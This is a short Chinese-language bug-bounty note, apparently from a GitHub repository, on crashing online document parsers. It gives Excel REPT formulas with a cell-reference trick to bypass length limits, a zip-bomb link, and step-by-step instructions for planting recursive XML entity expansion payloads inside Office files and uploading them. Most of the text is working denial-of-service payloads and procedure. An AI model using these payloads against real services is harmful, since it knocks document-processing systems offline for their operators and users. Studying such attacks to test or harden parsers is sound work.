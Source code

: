 通过使目标解析文件造成 DoS.

## 1. Excel

在 Excel 中有一个函数 `=REPT("1",99)` , 表示在一个单元格中写入 99 个 `1` ;

若是一个特别大的值, 如:  `=REPT("1",9999)` ,那么在 Office Excel 则不会解析, 而是返回一个值 `#VALUE!` ;

但是在线文档可能将文字全部解析并造成 DoS;

如果目标网站对 `=REPT("1",99)` 数量有限制, 可尝试引用单元格绕过:

```
=REPT("1",9)
=REPT(A1,9)
=REPT(A2,9)
=REPT(A3,9)
```

## 2. Zip

在线解压高压缩率的 zip 文件会造成 DoS, 若目标无法解压这个文件则不存在 DoS.

访问 [A better zip bomb](https://www.bamsoftware.com/hacks/zipbomb/) 得到 zip 文件.

## 3. XML

Word, Excel, PowerPoint 文件解压后存在 XML 文件, 压缩后可回复文档.

可利用 XML 的内部实体的循环引用造成 DoS

```
<!DOCTYPE w:t [
	<!ENTITY PoC "test">
	<!ENTITY PoC2 "&PoC;&PoC;&PoC;&PoC;&PoC;&PoC;">
	<!ENTITY PoC3 "&PoC2;&PoC2;&PoC2;&PoC2;&PoC2;&PoC2;">
]>
```

1. 在文档中写入 `Hello, World!` , 方便定位;

2. 使用解压工具打开文档;

3. 找到存在 `Hello, World!` 的 XML 文件;

   ```
   C:\Users\sec\Desktop\Microsoft Word 文档\word\document.xml
   C:\Users\sec\Desktop\Microsoft Excel 工作表\xl\sharedStrings.xml
   C:\Users\sec\Desktop\Microsoft PowerPoint 演示文稿\ppt\slides\slide1.xml
   ```

4. 在 XML 文件中添加内部实体引用

   ```
   <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
   <!DOCTYPE w:t [
   	<!ENTITY PoC "test">
   	<!ENTITY PoC2 "&PoC;&PoC;&PoC;&PoC;&PoC;&PoC;">
   	<!ENTITY PoC3 "&PoC2;&PoC2;&PoC2;&PoC2;&PoC2;&PoC2;">
   ]>
   <w:document>
   	<w:t>Hello, World!&PoC3;</w:t>
   </w:document>
   ```

5. 保存后上传到在线文档解析则可能造成 DoS.

---

参考链接

- [企业src中dos漏洞的挖掘【小火炬公开课】](https://www.bilibili.com/video/BV1xYweeKELq/?spm_id_from=333.1387.favlist.content.click&vd_source=2dcc7806c9580af60063ca1edb63852d)
- [A better zip bomb](https://www.bamsoftware.com/hacks/zipbomb/)
- [XML 拒绝服务攻击和防御](https://learn.microsoft.com/zh-cn/archive/msdn-magazine/2009/november/xml-denial-of-service-attacks-and-defenses)